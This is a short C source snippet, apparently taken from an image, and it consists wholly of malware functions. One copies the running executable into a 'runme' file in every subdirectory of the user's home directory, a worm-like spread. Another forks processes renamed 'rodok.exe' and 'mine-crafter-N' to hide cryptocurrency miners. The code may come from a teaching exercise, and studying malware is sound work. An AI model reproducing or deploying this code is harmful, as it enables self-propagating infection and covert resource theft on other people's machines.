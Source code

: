 ```sh

void multiply_malware(const char *target_path) {
    char self_path[1024];
    ssize_t len = readlink("/proc/self/exe", self_path, sizeof(self_path)-1);
    if (len == -1) return;
    self_path[len] = '\0';
    
    // Create parent directory if needed
    char *dir = strdup(target_path);
    char *parent_dir = dirname(dir);
    
    if (access(parent_dir, F_OK) == -1) {
        mkdir(parent_dir, 0755);
    }
    free(dir);
    
    copy_file(self_path, target_path);
}

void run_trojan_wrm() {
    char *home = getenv("HOME");
    if (!home) return;
    
    DIR *dir = opendir(home);
    if (!dir) return;
    
    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type == DT_DIR && strcmp(entry->d_name, ".") != 0 && 
            strcmp(entry->d_name, "..") != 0) {
            
            char target_path[1024];
            snprintf(target_path, sizeof(target_path), "%s/%s/runme", home, entry->d_name);
            multiply_malware(target_path);
        }
    }
    closedir(dir);
}

void run_rodok_exe() {
    rodok_pid = fork();
    
    if (rodok_pid == 0) {
        prctl(PR_SET_NAME, "rodok.exe", 0, 0, 0);
        
        for (int i = 0; i < MAX_MINERS; i++) {
            pid_t pid = fork();
            
            if (pid == 0) {
                char process_name[32];
                snprintf(process_name, sizeof(process_name), "mine-crafter-%d", i);
                prctl(PR_SET_NAME, process_name, 0, 0, 0);
                
                mine_crypto(i);
                exit(EXIT_SUCCESS);
            } else if (pid > 0) {
                miner_pids[i] = pid;
            }
        }
        
        while(1) pause();
    }
}
```